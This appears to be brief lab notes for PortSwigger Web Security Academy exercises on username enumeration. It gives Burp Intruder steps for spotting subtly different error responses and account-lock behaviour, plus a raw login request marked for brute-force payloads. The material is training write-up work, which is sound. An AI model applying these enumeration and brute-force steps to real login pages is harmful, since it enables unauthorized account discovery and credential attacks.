 ## Username enumeration via subtly different responses

1.First try to loging show Invalid username or password 

2. Loging page to worng username and password and burp request and sand intruder and add username 
3. set payloads
4. intruder sub-tab Option and scroll GREP-EXTRACT click add button and scroll and select Invalid username or password. and ok
5. and run the attack


 ## Username enumeration via account lock
 
  1. First try to loging show Invalid username or password
  2. Loging page to worng username and password and burp request and sand intruder and add username password add $$ 
  
  ## EX 
  
    POST /login HTTP/1.1
    Host: ac9b1f711ed8b1e1c0220cdd005b006a.web-security-academy.net
    Cookie: session=gyv8YLrvVqRcgxsc6JaG8vIgnRezoHew
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 27
    Origin: https://ac9b1f711ed8b1e1c0220cdd005b006a.web-security-academy.net
    Referer: https://ac9b1f711ed8b1e1c0220cdd005b006a.web-security-academy.net/login  
    Upgrade-Insecure-Requests: 1
    Sec-Fetch-Dest: document
    Sec-Fetch-Mode: navigate
    Sec-Fetch-Site: same-origin
    Sec-Fetch-User: ?1
    Te: trailers
    Connection: close

    username=§asif§&password=khan§§
